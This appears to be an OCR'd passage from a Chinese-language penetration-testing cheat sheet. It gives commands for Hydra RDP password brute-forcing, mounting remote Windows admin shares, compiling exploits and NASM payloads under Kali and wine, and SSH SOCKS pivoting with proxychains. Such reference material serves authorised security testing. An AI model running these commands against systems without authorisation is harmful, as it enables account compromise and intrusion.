 -----

# 使用 Hydra 爆破 RDP
hydra -l admin -P /root/Desktop/passwords -S X.X.X.X rdp

挂载远程 Windows 共享文件夹

smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw

# 杂项
Kali 下编译 Exploit

gcc -m32 -o output32 hello.c (32 位)

gcc -m64 -o output hello.c (64 位)

Kali 下编译 Windows Exploit


wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/

files/Installer/mingw-get-setup.exe/download

wine mingw-get-setup.exe

select mingw32-base

cd /root/.wine/drive_c/windows

wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip

cd /root/.wine/drive_c/MinGW/bin

wine gcc -o ability.exe /tmp/exploit.c -lwsock32

wine ability.exe

# NASM 命令
注：NASM 全称 The Netwide Assembler，是一款基于80×86和x86-64平台的汇编语言
编译程序，其设计初衷是为了实现编译器程序跨平台和模块化的特性。


nasm -f bin -o payload.bin payload.asm

nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload
# SSH 穿透

ssh -D 127.0.0.1:1080 -p 22 user@IP

Add socks4 127.0.0.1 1080 in /etc/proxychains.conf

proxychains commands target

SSH 穿透从一个网络到另一个网络

ssh -D 127.0.0.1:1080 -p 22 user1@IP1
